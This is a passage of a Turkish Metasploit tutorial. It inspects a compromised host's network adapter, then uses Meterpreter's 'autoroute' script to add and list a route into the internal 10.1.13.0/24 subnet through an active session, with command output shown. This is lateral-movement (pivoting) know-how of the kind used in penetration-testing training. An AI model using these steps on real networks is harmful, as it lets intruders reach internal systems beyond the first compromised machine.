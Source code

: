 ```bash
Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport
Hardware MAC: d2:d6:70:fa:de:65
IP Address  : 10.1.13.3
Netmask     : 255.255.255.0
```



Bu bilgilerden anladığımız kadarıyla `Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport` isimli kartın IP adresi `10.1.13.3`. O zaman bu ağa bağlananlara `10.1.13.1-255` aralığında IP adresleri verildiğini anlıyoruz. CIDR formatında bu `10.1.13.0/24` olarak gösteriliyor.



Meterpreter’in sağladığı imkanlardan bir tanesi de `autoroute` script kodudur. autoroute hakkında yardımı görüntüleyelim.


```bash
meterpreter **&gt;** run autoroute -h
**[*********]** Usage:   run autoroute **[**-r**]** -s subnet -n netmask
**[*********]** Examples:
**[*********]**   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
**[*********]**   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
**[*********]**   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
**[*********]**   run autoroute -p                            # Print active routing table
**[*********]**   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
**[*********]** Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
```



Şimdi otomatik rotalama yapalım. Bunun için aşağıdaki komutu kullanıyoruz.


```bash
meterpreter **&gt;** run autoroute -s 10.1.13.0/24
**[*********]** Adding a route to 10.1.13.0/255.255.255.0...
**[**+] Added route to 10.1.13.0/255.255.255.0 via 192.168.1.201
**[*********]** Use the -p option to list all active routes
```



Rotalama yapıldı. Kontrol edelim.


```bash
meterpreter **&gt;** run autoroute -p

Active Routing Table
**====================**

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.1.13.0          255.255.255.0      Session 1

meterpreter **&gt;**
```
